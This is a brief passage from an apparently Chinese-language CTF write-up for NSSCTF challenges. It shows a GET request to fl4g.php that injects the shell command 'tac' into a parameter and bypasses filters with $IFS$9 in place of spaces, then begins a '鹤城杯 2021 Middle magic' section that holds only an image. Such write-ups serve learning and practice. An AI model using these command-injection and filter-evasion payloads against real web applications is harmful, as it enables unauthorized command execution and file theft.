 空格用**$IFS$9**绕过，cat使用**tac**绕过

```
/fl4g.php?num=11e3&md5=0e215962017&get_flag=tac$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

![image-20250818085647772](./NSSCTF-6.assets/image-20250818085647772.png)

# [鹤城杯 2021]Middle magic

![image-20250818090639293](./NSSCTF-6.assets/image-20250818090639293.png)
